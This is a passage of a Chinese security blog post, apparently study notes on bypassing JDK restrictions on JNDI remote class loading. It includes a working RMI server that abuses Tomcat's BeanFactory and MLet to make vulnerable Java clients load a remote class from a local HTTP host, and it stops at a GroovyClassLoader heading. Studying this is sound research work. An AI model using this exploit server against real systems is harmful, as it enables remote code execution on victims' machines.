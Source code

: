 # JNDI学习记录(2)

  
  
&lt;!--more--&gt;  
## 0x00 前言  
高版本JDK在RMI和LDAP的`trustURLCodebase`都做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。  
目前公开的常用的利用方法是通过`Tomcat`的`org.apache.naming.factory.BeanFactory`工厂类去调用`javax.el.ELProcessor#eval`方法或`groovy.lang.GroovyShell#evaluate`方法，还有就是通过`LDAP`的`javaSerializedData`反序列化`gagget`，可以说这三种方法几乎涵盖了大部分场景。  
## 0x01 基于BeanFactory  
在上一篇文章中，讲过了`org.apache.naming.factory.BeanFactory`的绕过原理。  
我们在寻找其他类的时候需要按照这个条件去找  
- JDK或常用库的类  
- 有public修饰的无参构造方法  
- public修饰的只有一个String.class类型的参数的方法，且该方法可以造成漏洞。  
### MLet  
`javax.management.loading.MLet`，是`JDK`自带的。  
`MLet`继承了`URLClassloader`，有一个无参构造方法，还有一个`addURL(String)`方法，它的父类还有一个`loadClass(String)`方法。  
刚好满足条件。  
```  
MLet mLet = new MLet();  
mLet.addURL(&#34;http://127.0.0.1:2333/&#39;);  
mLet.loadClass(&#34;Exploit&#34;);  
```  
这样就相当于是通过`URLClassloader`去远程加载类了。  
但是这样并无法触发`ClassLoader.loadClass`无法触发`static`代码块。  
不过可以用来进行`gadget`探测。可以通过`MLet`进行第一次类加载，如果类加载成功就不会影响后面访问远程类。反之，如果第一次类加载失败就会抛出异常结束后面的流程，也就不会访问远程类。  
```java  
package Server;    
    
    
import com.sun.jndi.rmi.registry.ReferenceWrapper;    
import org.apache.naming.ResourceRef;    
    
import javax.naming.StringRefAddr;    
import java.rmi.registry.LocateRegistry;    
import java.rmi.registry.Registry;    
    
public class RMIServerBypass {    
    public static void main(String[] args) throws Exception {    
        Registry registry = LocateRegistry.createRegistry(1099);    
        ReferenceWrapper refWrapper = new ReferenceWrapper(tomcatMLet());    
        registry.bind(&#34;calc&#34;,refWrapper);    
        System.out.println(&#34;Server ready&#34;);    
    }    
    private static ResourceRef tomcatMLet() {    
        ResourceRef ref = new ResourceRef(&#34;javax.management.loading.MLet&#34;, null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);    
        ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=loadClass,b=addURL,c=loadClass&#34;));    
        ref.add(new StringRefAddr(&#34;a&#34;, &#34;javax.el.ELProcessor&#34;));    
        ref.add(new StringRefAddr(&#34;b&#34;, &#34;http://127.0.0.1:2333/&#34;));    
        ref.add(new StringRefAddr(&#34;c&#34;, &#34;evil&#34;));    
        return ref;    
    };    
}  
```  
### GroovyClassLoader  